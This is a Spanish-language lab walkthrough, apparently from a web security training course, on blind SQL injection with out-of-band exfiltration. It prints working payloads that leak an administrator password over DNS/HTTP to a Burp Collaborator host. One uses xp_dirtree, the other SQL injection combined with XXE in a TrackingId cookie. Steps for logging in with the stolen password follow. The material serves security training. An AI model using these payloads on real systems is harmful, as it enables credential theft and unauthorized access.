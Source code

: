 La solución descrita aquí es suficiente simplemente para activar una búsqueda de DNS y así resolver el laboratorio. En una situación del mundo real, usaría Burp Collaborator para verificar que su carga útil realmente haya activado una búsqueda de DNS y potencialmente explotaría este comportamiento para extraer datos confidenciales de la aplicación. Repasaremos esta técnica en el próximo laboratorio.

----
Una vez confirmada una forma de desencadenar interacciones fuera de banda, puede utilizar el canal fuera de banda para extraer datos de la aplicación vulnerable. Por ejemplo:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

Esta entrada lee la contraseña del `Administrator`usuario, agrega un subdominio de colaborador único y activa una búsqueda de DNS. Esta búsqueda le permite ver la contraseña capturada:

`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Las técnicas fuera de banda (OAST) son una forma poderosa de detectar y explotar la inyección SQL ciega, debido a la alta probabilidad de éxito y la capacidad de exfiltrar datos directamente dentro del canal fuera de banda. Por esta razón, las técnicas OAST suelen ser preferibles incluso en situaciones en las que otras técnicas de explotación ciega sí funcionan.

#### Nota

Hay varias formas de desencadenar interacciones fuera de banda y se aplican diferentes técnicas en diferentes tipos de bases de datos. Para obtener más detalles, consulte la hoja de referencia de inyección SQL.

1. Visite la página principal de la tienda y utilice Burp Suite Professional para interceptar y modificar la solicitud que contiene la `TrackingId`cookie.
2. Modifique la `TrackingId`cookie y cámbiela por una carga útil que filtrará la contraseña del administrador en una interacción con el servidor colaborador. Por ejemplo, puede combinar la inyección SQL con técnicas XXE básicas de la siguiente manera:
    
    `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
3. Haga clic derecho y seleccione "Insertar carga útil de Collaborator" para insertar un subdominio de Burp Collaborator donde se indica en la `TrackingId`cookie modificada.
4. Vaya a la pestaña Colaborador y haga clic en "Encuestar ahora". Si no ve ninguna interacción en la lista, espere unos segundos y vuelva a intentarlo, ya que la consulta del lado del servidor se ejecuta de forma asincrónica.
5. Debería ver algunas interacciones DNS y HTTP iniciadas por la aplicación como resultado de su carga útil. La contraseña del `administrator`usuario debe aparecer en el subdominio de la interacción y puedes verla en la pestaña Colaborador. Para las interacciones DNS, el nombre de dominio completo que se buscó se muestra en la pestaña Descripción. Para las interacciones HTTP, el nombre de dominio completo se muestra en el encabezado Host en la pestaña Solicitud de colaborador.
6. En el navegador, haga clic en "Mi cuenta" para abrir la página de inicio de sesión. Utilice la contraseña para iniciar sesión como `administrator`usuario.

-----

## nyección SQL en diferentes contextos.
